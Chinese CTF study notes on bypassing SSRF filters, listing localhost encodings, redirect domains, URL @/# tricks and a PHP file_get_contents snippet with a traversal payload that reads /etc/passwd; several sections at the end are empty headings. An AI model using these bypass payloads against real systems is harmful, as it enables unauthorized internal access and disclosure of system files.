

# 文章
[浅谈ssrf与ctf那些事](https://zhuanlan.zhihu.com/p/302861528)<br />[us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1691055945549-2207a2e4-9601-4f30-ba89-aaef4e24269d.pdf)
### 302跳转
有一个网站地址是：[http://xip.io](https://link.zhihu.com/?target=http%3A//xip.io)，当访问这个服务的任意子域名的时候，都会重定向到这个子域名，举个例子：<br />当我们访问：[http://127.0.0.1.xip.io/1.php](https://link.zhihu.com/?target=http%3A//127.0.0.1.xip.io/1.php)，实际上访问的是http://127.0.0.1/1.php。<br />像这种网址还有[http://nip.io](https://link.zhihu.com/?target=http%3A//nip.io)，[http://sslip.io](https://link.zhihu.com/?target=http%3A//sslip.io)。
### 进制转换
```php
<?php
$ip = '127.0.0.1';
$ip = explode('.',$ip);
$r = ($ip[0] << 24) | ($ip[1] << 16) | ($ip[2] << 8) | $ip[3] ;
if($r < 0) {
  $r += 4294967296;
}
echo "十进制:";
echo $r;
echo "八进制:";
echo decoct($r);
echo "十六进制:";
echo dechex($r);
?>
```
注意八进制ip前要加上一个0，其中八进制前面的0可以为多个，十六进制前要加上一个0x。<br />
### DNS解析
如果你自己有域名的话，可以在域名上设置A记录，指向127.0.0.1。
### 利用@和#
[http://www.baidu.com@127.0.0.1](http://www.baidu.com@127.0.0.1)与[http://127.0.0.1](http://127.0.0.1)请求是相同的。<br />[https://evil-host#expected-host](https://evil-host#expected-host)与[https://evil-host](https://evil-host#expected-host)请求是相同的
### 其他各种指向127.0.0.1的地址
```php
1. http://localhost/
2. http://0/
3. http://[0:0:0:0:0:ffff:127.0.0.1]/
4. http://[::]:80/
5. http://127。0。0。1/
6. http://①②⑦.⓪.⓪.①
7. http://127.1/
8. http://127.00000.00000.001/
```
第1行localhost就是代指127.0.0.1<br />第2行中0在window下代表0.0.0.0，而在liunx下代表127.0.0.1<br />第3行指向127.0.0.1，在liunx下可用，window测试了下不行<br />第4行指向127.0.0.1，在liunx下可用，window测试了下不行<br />第5行用中文句号绕过<br />第6行用的是Enclosed alphanumerics方法绕过，英文字母以及其他一些可以网上找找<br />第7.8行中0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
### **不存在协议头绕过**
有关file_get_contents()函数的一个trick，可以看作是SSRF的一个黑魔法，当PHP的 file_get_contents() 函数在遇到不认识的伪协议头时候会将伪协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件
```php
<?php
  highlight_file(__FILE__);
if(!preg_match('/^https/is',$_GET['a'])){
  die("no hack");
}
echo file_get_contents($_GET['a']);
?>
```
此处限制我们只能读https开头的路径，但利用这个特性我们可以构造如下Payload
```php
httpsssss://../../../../../../etc/passwd
```
### URL的解析问题
#### Python URL解析器的差异

#### 其他URL解析器的差异
<br />
#### cURL的解析问题
<br />
